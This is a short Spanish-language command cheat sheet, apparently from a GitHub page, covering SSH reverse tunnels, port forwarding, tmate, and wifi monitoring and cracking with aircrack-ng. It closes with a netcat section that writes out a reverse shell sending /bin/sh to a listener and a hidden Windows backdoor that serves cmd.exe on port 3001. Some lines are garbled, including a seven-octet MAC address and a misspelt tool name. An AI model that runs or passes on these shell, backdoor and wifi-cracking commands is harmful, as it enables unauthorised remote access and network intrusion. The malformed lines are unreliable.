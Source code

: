```

 El cliente con Firewall se conecta a la computadora del desarrollador (dev), y envía su shell de manera reversa (``-R--``), creando un túnel.

```
ssh -R 19999:localhost:22 dev@publicIP
```

 El desarrollador escucha en el puerto 19999 y accede a la computadora del cliente (cli), gracias al túnel abierto.

 ``ssh cli@localhost -p 19999``

 Redirigir un puerto (ej. 80) de una computadora remota al localhost (ej. 2002):

 ``ssh -N -L2002:localhost:80 user@ip_machine``

### Compartir la terminal en el browser

(``apt install tmate`` / ``yum install tmate``)

```
tmate
```

### Modo Monitor de Wifi, Sniffing y Crackeo con aircrack-ng (``apt install aircrack-ng``)

```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
iwconfig
airdump-ng
airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX:XX -w output wlan1
aircrack-ng -b 00:14:6C:7E:40:80 output.cap -w mydiccionary.txt 
```

Escaneo de Redes Wifi Disponibles 

```
sudo iwlist wlan0 scan | egrep "Cell|ESSID|Signal|Rates"
```

### Ncat:

Reverse Shell:

Desarrollador escucha en puerto 4444

```
 nc -lvp 4444 
```

Cliente envía su Shell a la IP del desarrollador

```
nc **IP** 4444 -e /bin/sh
```

Backdoor

Ejecutar en el servidor remoto

```
nc -L -p 3001 -d -e cmd.exe
```

```